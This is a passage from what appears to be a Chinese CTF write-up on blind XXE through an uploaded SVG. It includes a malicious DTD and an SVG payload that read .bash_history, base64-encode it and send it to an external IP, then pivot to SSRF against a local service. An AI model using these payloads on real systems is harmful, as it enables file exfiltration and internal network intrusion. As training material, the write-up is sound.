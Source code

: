 ```
<!ENTITY % all
        "<!ENTITY &#x25; send SYSTEM 'http://IP:端口/?%file;'>"
>
%all;
```

发送 `entity.svg` 地址；

我们可以看到dtd文件实际上已经被加载了，但是却没有收到读取文件之后的请求

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171303.png)

判断问题出在读文件那一步，但是倘若我们读取的文件是一个不存在的文件，比如file:///xxx/xx.x，那么我们发送svg文件地址之后，页面是没有回显内容的；
但是如果我们读取的是一个存在的文件，页面会有回显内容。

那么我们可以推测，读文件是读到了，但是在发包的时候出了问题。

问题就出在换行和空格。

因为是GET请求发送到VPS，所以我们不能有换行和空格，不然就会400。

解决方法当然是base64。xml解析器支持使用php://filter进行编码

修改 `entity.svg` :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fortiguard [ 
<!ENTITY lab SYSTEM "file:///home/r1ck/.bash_history">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///home/r1ck/.bash_history">
<!ENTITY % dtd SYSTEM "http://59.110.157.4:8000/1.dtd">
%dtd;
%send;
]>
<svg xmlns="http://www.w3.org/2000/svg" height="200" width="200">
        <text y="20" font-size="20">&lab;</text>
</svg>
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171320.png)

读到了.bash_history：

```
cd /app
php -S 0.0.0.0:8080
```

明显是SSRF打内网；

 

#### 利用XXE打SSRF

修改 `entity.svg` ，得到 `127.0.0.1:8080` 的源码：

```
<!doctype html>
<html>
<head>
<meta charset="UTF-8">
<title>index</title>
</head>
Hi!
You Find Me .
Flag is nearby.
<body>
</body>
</html>

```